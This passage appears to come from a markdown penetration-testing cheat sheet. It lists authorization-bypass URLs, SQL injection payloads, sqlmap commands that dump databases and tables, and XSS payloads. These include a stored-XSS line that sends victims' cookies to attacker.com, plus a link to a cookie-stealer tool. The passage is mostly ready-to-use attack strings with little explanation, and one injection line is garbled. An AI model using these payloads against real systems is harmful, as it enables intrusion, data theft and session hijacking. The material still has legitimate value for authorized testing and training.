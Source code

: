 ### **Authorization Testing**
```bash
# Horizontal privilege escalation
# Change user IDs in URLs/parameters
/user/profile?id=1 → /user/profile?id=2

# Vertical privilege escalation
# Test admin endpoints with regular user session
/admin/users
/api/admin/delete-user
```

---

##  **Phase 3: Input Validation & Injection Attacks**

### **SQL Injection Testing**
```bash
# Basic payloads
' OR 1=1--
' UNION SELECT version()--
' UNION SELECT user()--
' UNION SELECT database()--
---> ?PARAM=a%'ll tunion+select+1, 2,3,4,5,6,7,8,9+--
https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet

# Time-based blind SQLi
' AND (SELECT SLEEP(5))--
' OR (SELECT SLEEP(5))--

# Error-based SQLi
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--

# SQLMap automation
sqlmap -u "target_url?param=value" --dbs
sqlmap -u "target_url?param=value" --tables -D database_name
sqlmap -u "target_url?param=value" --dump -T table_name -D database_name
```

### **Cross-Site Scripting (XSS)**
```javascript
// Reflected XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>


// Stored XSS
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

https://github.com/AXDOOMER/easy-xss-cookie-stealer

// DOM-based XSS
#<script>alert('XSS')</script>
javascript:alert('XSS')
in the url query param = <iframe src="javascript:alert('xss')">

// Bypass filters
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
```

